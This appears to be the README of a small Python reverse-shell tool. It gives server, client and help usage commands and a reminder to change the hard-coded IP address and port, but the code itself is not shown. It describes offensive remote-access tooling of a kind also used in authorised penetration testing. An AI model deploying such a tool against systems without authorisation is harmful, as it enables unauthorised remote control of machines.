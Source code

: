 # Reverse-Shell-Script
A Python Based Script to provide Reverse shell

First run it a server then run it as client

Don't forget to modify/change hard coded IP Address and port

Usage:

    For A Server:
        
        python ReverseShell.py
        
    For A Client: 
    
        python ReverseShell.py IPAddress Port
        
     For Help:
     
        python ReverseShell.py help

    
